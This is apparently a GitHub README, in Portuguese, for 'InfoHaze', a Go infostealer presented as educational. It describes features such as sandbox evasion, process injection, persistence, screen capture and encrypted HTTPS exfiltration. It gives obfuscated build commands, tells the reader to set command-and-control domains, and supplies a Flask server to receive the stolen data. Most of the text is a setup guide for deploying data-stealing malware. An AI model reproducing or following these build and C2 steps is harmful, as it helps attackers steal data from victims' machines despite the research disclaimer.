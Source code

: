 # InfoHaze

[![Go Reference](https://pkg.go.dev/badge/github.com/marcostolosa/infoHaze.svg)](https://pkg.go.dev/github.com/marcostolosa/infoHaze)
[![Go Report Card](https://goreportcard.com/badge/github.com/marcostolosa/infoHaze)](https://goreportcard.com/report/github.com/marcostolosa/infoHaze)

## Visão Geral
InfoHaze é um infostealer escrito em Go e mantido apenas para fins educacionais. O projeto demonstra técnicas modernas de coleta e exfiltração de dados em 2025, incluindo derivação de chave baseada em hardware, ofuscação polimórfica e persistência multiplataforma.

## Recursos
- Derivação de chave a partir do hostname e do primeiro MAC disponível.
- Detecção básica de sandbox e debugger.
- Captura de tela com compressão e criptografia.
- Injeção em processo remoto e persistência para Windows, Linux e macOS.
- Exfiltração criptografada via HTTPS (AES-GCM + zlib).

## Requisitos
- Go 1.22 ou superior.
- Inicialize o módulo e recupere as dependências:
  ```bash
  go mod init github.com/marcostolosa/infoHaze
  go mod tidy
  ```

## Compilação
### Ofuscação opcional
```bash
garble -tiny -literals -seed random build -o infoHaze.exe tika.go
```
### Build direto
```bash
GOOS=windows GOARCH=amd64 go build -ldflags "-s -w" -o infoHaze.exe tika.go
```

## Uso
1. Ajuste os domínios C2 dentro do código (`tika.go`).
2. Compile o binário conforme desejado.
3. Execute o artefato em ambiente de laboratório controlado.

## Configuração do Servidor C2
- Disponibilize um endpoint HTTPS para receber os dados.
- Implemente descriptografia AES-GCM e descompressão zlib no servidor.
- Exemplo simplificado em Flask:
  ```python
  from flask import Flask, request
  app = Flask(__name__)

  @app.route('/upload', methods=['POST'])
  def upload():
      data = request.data
      # Descriptografar e descomprimir
      with open('output.bin', 'wb') as f:
          f.write(data)
      return 'OK', 200
  ```

## Aviso
Utilize este projeto apenas para pesquisa e testes autorizados. Qualquer uso indevido é ilegal e antiético, e os autores não se responsabilizam por danos causados.
